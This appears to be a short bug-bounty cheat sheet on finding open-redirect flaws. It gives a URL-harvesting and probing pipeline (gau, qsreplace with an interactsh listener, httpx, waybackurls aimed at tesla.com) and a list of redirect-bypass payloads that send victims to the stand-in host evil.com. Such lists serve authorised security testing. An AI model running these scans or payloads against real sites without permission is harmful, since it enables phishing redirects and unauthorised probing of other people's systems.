 Open redirect:
After gau, run:
cat urls.txt | grep "=" | qsreplace </my intereactsh-client> redirect.txt
run interactsh then: cat redirect.txt | httpx -fr
Check the interact-sh terminal

**echo "https://tesla.com" | waybackurls | httpx -silent -timeout 2 -threads 100 | gf redirect | anew**

#OpenRedirect 
?redirect=https://example.com to ?redirect=https://evil.com

?redirect=//evil.com

?redirect=\\evil.com

?redirect=\https:evil.com

?redirect=example.com%40evil.com

?redirect=example.com.evil.com

?redirect=example.com%2eevil.com

?redirect=evil.com?example.com

?redirect=evil.com%23example.com

?redirect=example.com/*evil.com

?redirect=evil.com%E3%80%82example.com

?redirect=/%0d/evil.com







